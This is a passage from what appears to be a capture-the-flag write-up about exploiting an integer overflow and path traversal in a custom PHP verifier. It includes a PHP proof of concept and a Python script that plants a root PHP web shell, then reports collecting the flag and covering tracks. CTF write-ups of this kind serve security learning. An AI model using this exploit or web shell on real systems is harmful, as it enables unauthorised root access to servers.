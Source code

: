 We can fulfill all of these requirements by creating a directory in a writable folder like `/tmp`{:.filepath} or `/dev/shm`{:.filepath} with the name as the content to write, then passing the file path with a long "sled" of forward slashes followed by something like `/tmp/<CONTENT>/../../../real/file`{:.filepath} in order to include the content in the desired file while still keeping a valid path.

```php
$size = 0x10000 - 0xa;
$data = "no_forward_slashes_or_null_bytes_please";
$path = "/dev/shm/{$data}/../../../tmp/pwned";
$sled = str_repeat("/", 800 - strlen($path));

$payload = $sled . $path; // Full file path
$payload .= str_repeat("x", $size - strlen($payload)); // Padding for integer overflow
var_dump(@say_lverifier($payload, "demopass"));
```
{:.nolineno}

In order for this exploit to work, a directory must exist at `/dev/shm/no_forward_slashes_or_null_bytes_please`{:.filepath} so that the final file path is valid.

![Run local PHP exploit](pe-gdb-exploit-docker.png)
_Run exploit locally_

![Ensure exploitation was successful](pe-gdb-exploit-docker-ensure.png)
_Exploitation was successful!_

The exploit worked locally, so we proceeded to create a Python implemenation for the HTTP server on the remote host. We decided to just write a simple PHP web shell to `/development/server-management_system_id_0/something.php`{:.filepath} since it would run as root when requested on the HTTP server.

```py
#!/usr/bin/env python3
# With <3 from Bryan McNulty
import requests, os

dummy_dir = '/dev/shm/<?=`$_GET[7]`;?>'
path = f'{dummy_dir}/../../../development/server-management_system_id_0/sBWtMe7v0MFR.php'

payload = '/' * (0x320 - len(path))
payload += path
payload += 'X' * (0x10000 - 0xa - len(payload))

os.makedirs(dummy_dir, exist_ok=True)

requests.post('http://localhost:9999/index.php', data={
	'username': payload,
	'password': 'demopass'})
```
{:file="lverifier_webshell.py"}

With the exploit copied to the remote host, We simply executed it and accessed the root web shell. Once the root flag was collected, we made sure to clean up our tracks.


[^tool-feroxbuster]: Speedy web content discovery tool - [FeroxBuster](https://github.com/epi052/feroxbuster)
[^tool-katana]: Advanced web crawler - [Katana by ProjectDiscovery](https://github.com/projectdiscovery/katana)
[^tool-ffuf]: Fast multipurpose web fuzzer - [FFuF (Fuzz Faster U Fool)](https://github.com/ffuf/ffuf)
[^software-gitea]: Self-hosted DevOps platform - [Gitea (Git with a cup of tea)](https://about.gitea.com/)
[^software-haproxy]: TCP/HTTP load balancer and proxy - [HAProxy](https://www.haproxy.org/)
[^software-docker]: Platform for deploying and managing containerized applications - [Docker](https://www.docker.com/)
[^software-express]: JavaScript web application framework - [Node.js Express](https://expressjs.com/)
[^tool-hash_extender]: Utility to assist in exploitation of secret-prefix MAC implementations - [Hash Extender by Ron Bowes](https://github.com/iagox86/hash_extender)
[^tool-radare2]: Unix-like reverse engineering framework - [Radare2](https://github.com/radareorg/radare2)